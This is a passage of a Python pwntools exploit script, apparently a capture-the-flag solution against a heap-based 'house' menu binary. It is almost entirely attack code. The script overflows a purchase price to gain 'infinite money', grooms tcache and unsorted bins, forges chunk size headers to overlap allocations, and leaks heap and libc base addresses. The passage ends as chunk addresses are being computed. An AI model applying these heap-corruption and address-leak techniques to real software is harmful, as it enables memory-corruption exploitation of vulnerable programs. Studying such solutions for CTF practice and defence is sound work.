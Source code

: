 ```python
    p.clean(1)
    send_wrapped('2', 32)
    send_wrapped(str(index), 32)
    return p.readuntil('$$$$$$$$$$$$$$$$$$$$$$$$$$$$').replace('$$$$$$$$$$$$$$$$$$$$$$$$$$$$', '')
def sell_house(index):
    send_wrapped('3', 32)
    send_wrapped(str(index), 32)
def update_house(index, house):
    send_wrapped('4', 32)
    send_wrapped(str(index), 32)
    send_wrapped(house, mapping[index] + 32)
def buy_super_house(house):
    send_wrapped('5', 32)
    p.send(house)
    time.sleep(0.4)
def build_destroy(index, size, house, sleep_nowrap=False):
    buy_house(index, size, house, sleep_nowrap)
    sell_house(index)
# get infinite money
buy_house_massive(0, 338472368324945915)
sell_house(0)
for i in range(3):
    build_destroy(6, 0x3a0, 'A' * 224 + p64(0x300) + p64(0x2c0), True)
for i in range(7):
    build_destroy(0, 0x1c0, 'A', True)
buy_house(0, 128, 'A')
buy_house(1, 128, 'B')
buy_house(2, 128, 'C' * 16 + p64(0) + p64(0x71))
buy_house(5, 128, 'F' * 128)
buy_house(3, 1200, 'D' * 16 + p64(0) + p64(0x4a1), True)
buy_house(4, 128, 'E')
build_destroy(6, 0x390, 'G' * 1200, True)
for i in range(7):
    build_destroy(6, 0x2f0, 'A' * 0x2f0, True)
build_destroy(6, 0x217, 'A', True)
# we can easily extend this into a heap leak
# by just allocating and freeing another thing, such
# that its also in the unsorted bin
update_house(0, 'A' * 128 + p64(0) + p64(0x1d1))
sell_house(1)
# maybe make this one a little bit longer so we can overwrite and
# free some tiny-sized tcache chunks!  Then free them and
# forge
buy_house(1, 0x1c0, 'B' * 128 + p64(0) + p64(0x21) + p64(0) * 3 + p64(0x71) + 'B' * 0x60 + p64(0) + p64(0x31) + p64(0) * 5 + p64(0x61) + 'B' * 0x50 + p64(0) + p64(0x4c1))
sell_house(2)
sell_house(3)
sell_house(5)
data_buffer = show_house(1)
heap_leak = u64(data_buffer[0x9e:0x9e+8])
libc_leak = u64(data_buffer[0x1b6:0x1b6+8])
heap_base = heap_leak - 0x10
libc_base = libc_leak - 0x1e4ca0
libc.address = libc_base
log.info('heap base @ ' + hex(heap_base))
log.info('libc base @ ' + hex(libc_base))
log.info('lbic leak @ ' + hex(libc_leak))
first_chunk = heap_base + 0x1bd0
second_chunk = heap_base + 0x1c50
third_chunk = heap_base + 0x40
fourth_chunk = heap_base + 0x1b40
```